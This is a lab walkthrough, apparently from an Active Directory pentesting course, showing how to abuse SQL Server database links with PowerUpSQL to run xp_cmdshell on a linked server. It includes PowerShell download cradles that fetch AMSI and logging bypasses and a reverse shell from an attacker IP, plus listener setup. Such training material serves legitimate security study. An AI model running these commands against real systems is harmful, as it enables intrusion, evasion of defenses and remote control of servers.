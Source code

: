 # 🔗 Reverse shell on a SQL server by abusing database links

Let's start with enumerating SQL servers in the domain and if studentx has privileges to connect to any of them. We can use PowerUpSQL module for that. Run the below command from a PowerShell session started using Invisi-Shell:

```
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose
```

<figure><img src="../../.gitbook/assets/image (1167).png" alt=""><figcaption></figcaption></figure>

Now that we have those informations, we can use Get-SQLServerLinkCrawl for crawling the database links automatically:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We can see We have sysadmin on eu-sql server!

<figure><img src="../../.gitbook/assets/image (1168).png" alt=""><figcaption></figcaption></figure>

If xp\_cmdshell is enabled (or RPC out is true - which is set to false in this case), it is possible to execute commands on eu-sql using linked databases. To avoid dealing with a large number of quotes and escapes, we can use the following command:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'set username'"
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Let's try to execute a PowerShell download execute cradle to execute a PowerShell reverse shell on the eu-sql instance. Remember to start a listener:

```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.13:9898/Invoke-PowerShellTcpEx.ps1'')"' -QueryTarget eu-sql
```



<figure><img src="../../.gitbook/assets/image (1180).png" alt=""><figcaption></figcaption></figure>

```
 Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.13:5555/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.13:5555/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.13:5555/Invoke-PowerShellTcp.ps1)"''' -QueryTarget eu-sql13
```

{% hint style="danger" %}
Don't forget to set up a listener using wsl (here on port 5555), set up a listener with netcat (here on port 443) and inside  /Invoke-PowerShellTcp.ps1 put this line:
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1182).png" alt=""><figcaption></figcaption></figure>

```
Power -Reverse -IPAddress 172.16.100.13 -Port 443
```
